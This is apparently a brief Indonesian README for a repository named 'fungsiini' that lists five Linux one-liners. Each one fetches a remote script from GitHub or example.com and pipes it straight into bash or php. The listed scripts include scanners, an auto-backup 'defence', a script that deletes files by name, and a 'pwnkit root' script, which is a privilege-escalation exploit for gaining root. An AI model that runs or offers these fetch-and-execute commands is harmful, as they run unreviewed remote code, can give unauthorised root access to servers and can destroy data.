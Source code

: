 # fungsiini Command line linux
# Anti Tikung" Kon7ol defendfg

1, scaner cepat 
wget https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/sca.sh -q -O - |bash

2, backup auto defend

curl -s https://example.com/script.php | php - backup y

3, scanner powerfull 

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/outsca.php | php

4, pwnkit root localhost

wget https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/pwk.sh -q -O - |bash

5, Mendelet berdasarkan nama file kon7l

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/delet.php | php namafile.php
